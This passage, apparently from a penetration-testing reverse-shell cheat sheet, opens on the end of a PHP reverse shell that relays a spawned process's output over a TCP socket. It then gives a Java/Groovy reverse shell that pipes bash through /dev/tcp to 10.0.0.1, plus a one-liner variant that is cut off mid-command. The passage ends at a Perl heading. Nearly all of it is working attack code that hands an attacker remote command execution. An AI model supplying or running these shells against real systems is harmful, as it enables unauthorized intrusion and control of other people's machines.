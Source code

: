 ```
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}

// If we can read from the process's STDERR
// send data down tcp connection
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}

?>
```

## <mark style="color:red;">JAVA</mark>

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

one-liner:

```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/666;c
```



## <mark style="color:red;">Perl</mark>

#### <mark style="color:green;">Save this as a CGI file: - you can always just use a command line as well</mark>
